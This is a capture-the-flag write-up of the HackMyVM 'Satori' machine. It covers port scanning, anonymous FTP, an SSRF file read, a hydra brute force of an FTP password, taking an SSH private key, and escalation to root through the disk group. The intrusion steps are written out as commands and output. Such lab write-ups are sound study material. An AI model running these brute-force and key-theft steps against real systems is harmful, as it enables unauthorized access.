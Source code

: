 ```yaml
---
title: "Satori"
author: am-a-circle
date: 2022-03-19 12:00:00 +0800
categories: [hackmyvm,mediumm]
tags: [OSINT,Disk Group]
math: false
mermaid: false
---
```


## Overview

A vulnerable machine that is very OSCP like. Think outside the box, enumerate at places you don't usually do and understanding of exploiting the vulnerability to do a LFI. 

|Box Difficulty| Link|
|--|--|
| Medium | [HackmyVM](https://hackmyvm.eu/machines/machine.php?vm=Satori) |

## Recon


```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# masscan -p1-65535,U:1-65535 192.168.56.69 --rate=1000 
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2022-03-19 12:44:43 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [131070 ports/host]
Discovered open port 80/tcp on 192.168.56.69                                   
Discovered open port 21/tcp on 192.168.56.69                                   
Discovered open port 22/tcp on 192.168.56.69   
```


Enumerate ports that were found to be open:

```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# nmap -sVC -Pn -p 21,22,80 192.168.56.69
Starting Nmap 7.92 ( https://nmap.org ) at 2022-03-19 08:48 EDT
Nmap scan report for 192.168.56.69
Host is up (0.00010s latency).

PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_-rwxrwxrwx    1 0        0        10296404 Mar 03  2021 satori.mkv [NSE: writeable]
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:192.168.56.70
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 4
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp open  ssh     OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 fd:07:48:a4:a2:91:7d:bf:e8:2c:2d:39:7d:21:fe:8a (RSA)
|   256 d5:f1:45:5d:d4:3e:2e:63:25:e3:0e:d0:21:0d:23:15 (ECDSA)
|_  256 e8:78:20:63:0d:23:2f:83:42:8f:14:68:c1:24:32:e4 (ED25519)
80/tcp open  http    nginx 1.14.2
|_http-title: youtube-downloader
|_http-server-header: nginx/1.14.2
MAC Address: 08:00:27:7E:43:28 (Oracle VirtualBox virtual NIC)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 8.16 seconds
```

We can see that there is an anonymous account on the FTP server.
Additionally, http is hosting a nginx 1.14.2, application called youtube-downloader.

Begin enumeration.

## FTP - TCP 21

Enumerate the anonymous FTP account to find a `.mkv`. Honestly, a dead end which shows an interesting video if you get there :) However, further enumeration shows nothing interesting.
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ftp anonymous@192.168.56.69                                                                                                                     
Connected to 192.168.56.69.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password: 
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> dir
229 Entering Extended Passive Mode (|||21604|)
150 Here comes the directory listing.
-rwxrwxrwx    1 0        0        10296404 Mar 03  2021 satori.mkv
226 Directory send OK.
ftp> get satori.mkv
local: satori.mkv remote: satori.mkv
229 Entering Extended Passive Mode (|||55943|)
150 Opening BINARY mode data connection for satori.mkv (10296404 bytes).
100% |*********************************************************************************************************************************************************| 10055 KiB  218.87 MiB/s    00:00 ETA
226 Transfer complete.
10296404 bytes received in 00:00 (217.63 MiB/s)
ftp> exit
221 Goodbye.
                                                                                                                                                                                                      
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ls -la 
total 10072
drwxr-xr-x 2 root root     4096 Mar 19 08:50 .
drwxr-xr-x 3 root root     4096 Mar 19 08:43 ..
-rw-r--r-- 1 root root 10296404 Mar  3  2021 satori.mkv
```

## HTTP- TCP 80

Website Enum:

```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# gobuster dir -u http://192.168.56.69:80 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 100 -e -k -s "200,204,301,302,307,403,500" -x "txt,html,php,jsp" -o gobuster_p80.txt
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://192.168.56.69:80
[+] Method:                  GET
[+] Threads:                 100
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Extensions:              txt,html,php,jsp
[+] Expanded:                true
[+] Timeout:                 10s
===============================================================
2022/03/19 08:48:06 Starting gobuster in directory enumeration mode
===============================================================
http://192.168.56.69:80/index.html           (Status: 200) [Size: 1739]
http://192.168.56.69:80/stream.php           (Status: 200) [Size: 15]  
                                                                       
===============================================================
2022/03/19 08:49:24 Finished
===============================================================
```

We can see a Youtube Downloader application from [here](https://github.com/Athlon1600/youtube-downloader).
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori1.png)
Further enumeration shows that there exist a SSRF vulnerability :

![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori2.png)
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori3.png)
POC:

![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori4.png)
Great we got a SSRF! From [Hacktricks](https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery#file) , we know that we can try to read the localhost File by supplying the below:
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori5.png)
After enumerating the `/etc/passwd` file there is only a user called **yana** .
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori7.png)

## Shell as Yana

Trying to SSH into yana show's that we need its publickey to access the server.
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ssh yana@192.168.56.69                                                                                         
The authenticity of host '192.168.56.69 (192.168.56.69)' can't be established.
ED25519 key fingerprint is SHA256:qOlHItKY4wk+MzNIJgzvdD3C17EaDA1k/uYmSNfmhAk.
This key is not known by any other names
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '192.168.56.69' (ED25519) to the list of known hosts.
yana@192.168.56.69: Permission denied (publickey).
```
Enumerating the FTP server with user yana allow us to find the password through a bruteforce attack!
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# hydra -t 64 -l yana -P /usr/share/wordlists/rockyou.txt 192.168.56.69 ftp                                           
Hydra v9.3 (c) 2022 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-03-19 09:31:09
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344399 login tries (l:1/p:14344399), ~224132 tries per task
[DATA] attacking ftp://192.168.56.69:21/
[21][ftp] host: 192.168.56.69   login: yana   password: XXXXX
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 10 final worker threads did not complete until end.
[ERROR] 10 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2022-03-19 09:31:59
```

Enumerating the ftp server shows what we a need, a `id_rsa` under the .ssh server.
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori9.png)


Download the file and we are in!
```bash
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# chmod 600 id_rsa                              
                                                                                                                               
┌──(root💀kali)-[/opt/hackmyv/satori]
└─# ssh yana@192.168.56.69 -i id_rsa 
Linux satori 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Wed Mar  3 06:25:56 2021 from 192.168.1.58
yana@satori:~$ 
```



## Shell as Root

Running linpeas shows that user yana is under the `Disk` group which has a common privs escalation technique! 
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori10.png)
Based on [hacktricks](https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe#disk-group):

> This privilege is almost **equivalent to root access** as you can
> access all the data inside of the machine.
> Note that using debugfs you can also **write files**. For example to copy `/tmp/asd1.txt` to `/tmp/asd2.txt`.


Execute the vulnerability and enumerate, we find a private key for the root user:
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori11.png)
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori12.png)
Rooted:
![enter image description here](https://raw.githubusercontent.com/am-a-circle/am-a-circle.github.io/main/assets/img/hackmyvm/satori/satori13.png)

